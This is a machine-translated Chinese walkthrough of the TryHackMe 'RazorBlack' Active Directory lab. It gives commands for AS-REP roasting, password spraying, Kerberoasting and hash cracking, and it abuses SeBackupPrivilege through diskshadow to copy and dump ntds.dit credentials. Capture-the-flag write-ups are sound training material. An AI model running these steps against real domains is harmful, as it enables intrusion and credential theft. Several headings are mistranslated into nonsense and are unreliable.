# RazorBlack:来自 TryHackMe 的活动目录室

> 原文：<https://infosecwriteups.com/razorblack-active-directory-room-from-tryhackme-by-hashar-mujahid-52985f24d929?source=collection_archive---------1----------------------->

这些家伙自称黑客。你能告诉他们谁是老板吗？？


剃刀黑

**初始枚举:**

我们可以从 nmap 端口扫描开始，看看我们的目标正在运行哪些服务。

```
sudo nmap -sC -sV -p- --min-rate 1500 <Target-IP>
```



Nmap 扫描



域名

我们的目标 DNS 是“raz0rblack.thm”。让我们将它添加到 hosts 文件中。

并继续枚举。

我们打开了 Smb，让我们尝试列举一些共享。

**中小企业枚举:**

我尝试了许多工具，但看起来我们无法枚举份额。



Crackmapexec

**使用 Kerbrute 进行用户枚举:**

我们也许可以使用 Kerberos 枚举有效用户，但是。



克尔布鲁特

我们找不到任何其他用户。

**RPC 枚举:**

我们在端口 111 上有 RPC，让我们试着列举一下。关于如何枚举 RPC，hakticks 上有很好的指导。

[](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind) [## 111/TCP/UDP 测试端口映射器

### https://medium . com/@ sebnemK/how-to-bypass-filtered-port mapper-port-111-27ce e52416 BC

book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind) 

在阅读说明书的过程中，我发现了一些有趣的事情。



哈克特里克斯

如果我没记错的话，我们确实有一个 NFS 在 2049 端口上运行。

```
We can run  showmount -e <ip-address> to list any shared directories
```



秀芒特

我们可以看到有一个/users 目录。我们可以挂载到这个目录，并获取该目录中的内容。



安装/用户

您可以检索 sbradley.txt .中的标志，还可以查看 employee_status.xlsx 中的标志。



员工。xlxs

我们有一个用户名列表，但我们首先必须将它们更改为 AD 使用的命名约定。正如我们在名为 sbradley.txt 的目录文件中所看到的，我们需要将每个用户名更改为名字的第一个字符，后面跟着姓氏。

格式化用户名

**as 重新发布:**

现在我们有了一个希望有效的用户名列表，我们可以应用 ASEProasting 技术来获取禁用了预认证的用户的 NTML 散列。

如果你想了解什么是无菌烘烤，你可以看看康达的这个视频。

可以帮助我们实现这一技术的工具是 GetNPUsers.py，它是 impacket 的一部分。

语法:

```
GetNPUsers.py -no-pass -usersfile validusers.txt Domainame/
```



as 重新发布

我们得到了用户 twilliams 的散列，因为他没有启用“预认证”。

现在我们只需要使用 hashcat 来破解 hash。

```
hashcat -m 18200 hash <wordlist path>
```



哈希卡特

现在我们有了用户名 twilliams 和他的密码。我们可以试着列举出威廉夫妇的股份。

**百万股:**

我们可以使用 smbclient 或 smbmap 来检索份额。



分享

其他所有共享除了垃圾都没用。让我们连接到它。



拒绝访问

**密码喷涂:**

我们可以做的是使用 crackmapexec，并使用一种称为密码喷洒的技术来查看是否有其他用户正在使用相同的密码。

```
crackmapexec smb <ip> -u <usernames> -p <passwords>
```



口令喷涂

我们看到用户 sbradley 有一条必须更改其密码的消息，这意味着我们有相同的密码。我们可以设置他的新密码并用它登录。

我们可以使用 smbpasswd 工具为他设置一个新密码。

```
smbpasswd -r <ip> -U <user>
```



Smbpasswd

现在让我们连接到共享。使用用户 sbradley 和您设置的密码。我把它设置为 smbpassword101。

您可能会发现下载 zip 文件很困难。

可以用 smbget 下载



smbget

我们也有聊天记录。

```
┌──(kali㉿kali)-[~/Desktop/CTFs/Razorblack.thm]
└─$ cat chat_log_20210222143423.txt 
sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.
Administrator> What vulnerability??
sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.
Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.
sbradley> Hey you won't believe what I am seeing.
Administrator> Now, don't say that you ran the exploit.
sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.
sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.
Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.
Administrator> But, Before I die I will kill your WinRM access..........
sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.
sbradley> Hey Administrator are you there ...
sbradley> Administrator .....The administrator died after this incident.Press F to pay respects
```

这意味着我们的 zip 中有 ntds.dit，让我们解压缩它。



受密码保护

我们的 zip 文件是受密码保护的，我们可以使用 zip2john 来获得密码哈希，然后使用 john 来破解它。

**zip2john** :

```
zip2john experiment_gone_wrong.zip > ziphash.txt
```



zip2john

**约翰**:

```
john --wordlist=rockyou.txt ziphash.txt
```



约翰

现在让我们拉开拉链。



拉开

现在我们有了 ntds.dit 和 system.hieve。

我们可以使用 secretsdumps.py 来取消这些文件的阴影。

**Secretsdump.py:**



Secretsdump.py

这将在工作目录中创建一个 ntds.unshadowed 文件。

现在，我们只需要回答问题。

如果我们想使用散列来寻找答案，我们需要做一些格式化


例子

我们看到我们需要的散列在第四个分隔符':'之后。

我们可以使用 awk 只获取 ntml 散列，并将它们保存在一个单独的文件中。



格式化

柳德米拉的杂烩:

我们可以用 crackmapexec 暴力破解 smb，得到 lvetrova 的有效散列。



我们现在有了散列，我们可以使用 evil-winrm 登录。



登录和 PS 凭据

我们的标志编码在 Pscredentials 中，我们可以使用它进行解码。



不成功的

上述方法失败了。我们也可以试试这个方法。

[](https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password) [## PowerShell -解码系统。安全性。获取可读密码

### 我想破解一个系统的密码。安全性。获取可读密码。$password =…

stackoverflow.com](https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password) 

```
**To encode:**$password = convertto-securestring "TestPassword" -asplaintext -force
$credentials = New-Object System.Net.NetworkCredential("TestUsername", $password, "TestDomain")
**TO DECODE:**
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($credentials.password)
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
$result
```



在 Users 目录中，我发现了一个新的用户名 xyan1d3。将其添加到我们的用户名列表中。



我们可以通过广播来寻找服务票。

**Kerberos 认证:**

Kerberoasting 认证是一种利用后攻击技术，它试图泄露 Active Directory 服务帐户(AD)的密码。在这种攻击中，攻击者伪装成具有服务主体名称(SPN)的帐户用户，请求具有加密密码或 Kerberos 的票据。

**Impacket GetUserSPN.py:**

我们可以使用 impcket 的 GetUserSPN.py 对用户 lvetrova 进行 kerbroast。

语法:

```
GetUserSPNs.py <domain_name>/<domain_user> -hashes LNTML:NTML -request -outputfile <output_TGSs_file>
```


我们可以看到 Xyan1d3 的服务票。我们可以从域中请求它。



票

现在我们只需要用 hashcat 来破解这个散列。

```
hashcat -m 13100 hash rockyou.txt 
```


破裂

现在让我们以 Xyan1d3 的身份登录。



我们必须再次重复整个 Pscredential 解码过程。



译解

现在到了难题最棘手的部分。获取根！

我们可以尝试运行 SharpHound.ps1



上传 Sharphound.ps1

失败了。

尝试了很多东西后，我发现了一些有趣的东西。



whoami/全部


特权

在 PEH 的 TCM 安全健康-亚当斯没有提到这种特权是脆弱的。让我们看看。

[](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) [## Windows 特权和特权

### 获取 Windows 域控制器计算机中的 NTLM 哈希

medium.com](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) 

这是一篇很棒的文章，如果你想看视频，康达有一个很棒的视频。

现在，我们需要创建一个脚本来启动备份过程。

[](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group) [## GitHub-S1 CBK 0y 1337/Active-Directory-Exploitation-Cheat-Sheet:一个包含常见…

### 本备忘单包含 Windows Active Directory 的常见枚举和攻击方法。这份备忘单是…

github.com](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group) 

如何创建脚本的指南。

```
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive

create

expose %mydrive% w:
end backup
```

你可能需要在脚本的每一行末尾添加另一个字母。



像这样

由于某种原因，每行的最后一个字母被跳过了。

现在它工作正常。

之后上传到目标。



脚本. txt



上传

现在我们只需要使用 diskshadow 实用程序来执行它。

```
diskshadow /s backup.txt
```



支持

第二，我们需要从下面给出的库中下载 DLL 文件

[](https://github.com/giuliano108/SeBackupPrivilege) [## GitHub-giulia no 108/sebakuppprivilege:使用 SE _ BACKUP _ NAME/sebakuppprivilege 访问您…

### 在 Windows 上，如果用户拥有“备份文件和目录”权限，他将被分配 SE_BACKUP_NAME/…

github.com](https://github.com/giuliano108/SeBackupPrivilege) 

第一个“SeBackupPrivilegeCmdLets.dll”检查是否启用了 SeBackupPrivilege，第二个“SeBackupPrivilegeUtils.dll”复制文件。

请记住，在使用复制功能之前，您必须先生成要检索的文件的卷影副本。因为文件正在使用中，所以您不能直接复制它们。“Copy-filebackuppprivilege”复制功能是利用 Robocopy 实用程序的替代方法。

现在使用 evil-winrm 的 upload 命令将两个 Dll 上传到目标。



现在我们需要使用 import module 命令导入这些 dll。

现在我们可以验证我们的特权。之后，我们需要使用 Copy-files ebackuppprivilege 将备份复制到我们的目录中。

```
Get-SeBackupPrivilege
Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\users\xyan1d3\ntds.dit -Overwrite
```

最后两个命令复制 ntds.dit 和系统 hieve 文件。



现在将这些文件下载到您的主机上。



现在，我们可以再次使用 Secretsdump.py 来获取哈希值。


Secretsdump.py



AdminHASH

我们现在可以以管理员身份登录。



现在只需获取主目录中的标志。



PS 凭据

它不是 pscredential，它只是一个简单的 Hex。



只要去赛博厨师或任何十六进制解码器工具，解码它。



我们还需要一面泰森旗。

它在威廉姆目录里。



最后我们黑了这个。

希望你喜欢。

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*